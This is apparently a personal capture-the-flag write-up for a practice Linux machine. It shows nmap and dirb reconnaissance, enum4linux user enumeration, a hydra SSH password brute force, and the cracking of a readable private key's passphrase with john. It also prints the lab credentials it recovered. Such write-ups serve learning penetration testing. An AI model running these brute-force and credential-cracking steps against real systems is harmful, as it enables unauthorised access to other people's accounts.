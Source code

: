 # Information Gathering
> nmap -a $TARGET
Useful resoults:
  * port 22 ssh open, + ssh keys
  * port 80 open
checked the webpage:
viewed source code:
Hint:
> "<!-- Check our dev note section if you need to know what to work on. -->"

### BruteForce time!
Used dirb:
> dirb $TARGET /usr/share/wordlists/dirb/common.txt
found web dir: /development/ :
  * /development/dev.txt : mentioned apache version 2.5.12
  * /development/j.txt : etc/shadow and crackable hash
### enum time!
we are asked to find usernames:
> enum4linux -U $TARGET 
output: 
'''
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
'''

### Crack Jan's password
Used hydra on ssh
> hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://$TARGET
after 10 mins, found the password:
> [22][ssh] host: 10.10.93.208   login: jan   password: armando

Now we can log into the machine via jan:armando on ssh

### PrivEsc
* Manual:
 	1. /etc/shadow perms : -rw-r-----  1 root shadow  1085 Apr 23  2018 shadow
 	2. /etc/passwd: 	* kay:x:1000:1000:Kay,,,:/home/kay:/bin/bash
  						* jan:x:1001:1001::/home/jan:/bin/bash
  	3. cd /home/kay and found pass.bak  (IMPORTANT)
 	4. cd /home/kay and found .ssh/ it contains ssh_keys which means we also have kay creds over ssh (IMPORTANT)

* Linenum tool (-> Useless):
	transfered the script via SimpleHTTPServer
	on target machine:
	> "jan@basic2:/var/tmp/linenum$ ./LinEnum.sh > res.txt"
---
'''
Grabbed private_keys from /home/kay/.ssh:
|	-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
|	-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
|	-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
'''

#### Crack time!
> python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
> john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
found passphrase: beeswax

#### SSH to kay
> ssh -i /home/kay/.ssh/id_rsa kay@10.10.93.208
Enter passphrase for key '/home/kay/.ssh/id_rsa': beeswax
Done!
### pass.bak
> cat pass.bak
heresareallystrongpasswordthatfollowsthepasswordpolicy$$

  				



